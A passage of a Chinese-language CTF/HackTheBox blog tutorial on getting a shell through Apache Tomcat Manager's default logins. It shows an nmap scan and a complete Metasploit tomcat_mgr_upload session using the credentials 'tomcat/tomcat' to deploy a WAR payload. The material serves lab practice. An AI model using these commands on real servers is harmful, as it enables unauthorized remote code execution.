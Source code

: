 ```yaml
---
layout:     post
title:      利用Tomcat Manager的多种方法
date:       2018-12-23
author:     Wh0ale
header-img: img/26s_by_wlop-dc8ykdg.jpg
catalog: true
tags:
    - Hackthebox
---
```


在玩CTF时，很多时候我发现Apache Tomcat在目标机器上运行，配置了默认登录，这可以帮助我们获得远程机器shell。因此我觉得，我应该编写所有可能的方法来利用tomcat manger应用程序获取远程机器的webshell。

# 0x01 流程

- Tomcat Manager经过身份验证的上载代码执行
- 生成.war格式后门
- Tomcat War Deployer Script
- 生成JSP Webshell

让我们从nmap扫描开始，到tomcat服务检查端口8080作为tomcat。

```
nmap -sV -p8080 192.168.1.101
```



![img](https://i1.wp.com/3.bp.blogspot.com/-ml43P-L_v4w/XBUvOsbQSpI/AAAAAAAAbvc/jA7Q5pIAG9AsDfdsA3DS4dLs_wSuLs_VgCLcBGAs/s1600/1.png?w=687&ssl=1)

从nmap输出结果，我们发现Apache Tomcat的端口8080是开放的。因此，我们导航到Web浏览器并探索目标IP：端口我们看到HTTP身份验证页面登录tomcat manger应用程序。

![img](https://i2.wp.com/4.bp.blogspot.com/-RM_zG0QelS0/XBUvQKbQipI/AAAAAAAAbvs/VhghCRlap64mTDjPOBY6YoTPbvXwkX4NgCLcBGAs/s1600/2.png?w=687&ssl=1)

## 1.Tomcat Manager经过身份验证的上载代码执行

```
use exploit/multi/http/tomcat_mgr_upload
msf exploit(multi/http/tomcat_mgr_upload) > set rhost 192.168.1.101
msf exploit(multi/http/tomcat_mgr_upload) > set rport 8080
msf exploit(multi/http/tomcat_mgr_upload) > set httpusername tomcat
msf exploit(multi/http/tomcat_mgr_upload) > set httppassword tomcat
msf exploit(multi/http/tomcat_mgr_upload) > exploit
```

此模块可用于在具有公开“管理器”应用程序的Apache Tomcat服务器上执行有效负载。有效负载作为WAR存档上载，包含使用针对/ manager / html / upload组件的POST请求的jsp应用程序。注意：兼容的有效负载集根据所选目标而有所不同。例如，您必须选择Windows目标才能使用本机Windows有效负载。



![img](https://i2.wp.com/4.bp.blogspot.com/-2GppiHBsVY8/XBUvQXzjPGI/AAAAAAAAbv0/06VAOYSRFkk3G0M4fQTabSxyYN3Q1dBuQCLcBGAs/s1600/3.png?w=687&ssl=1)
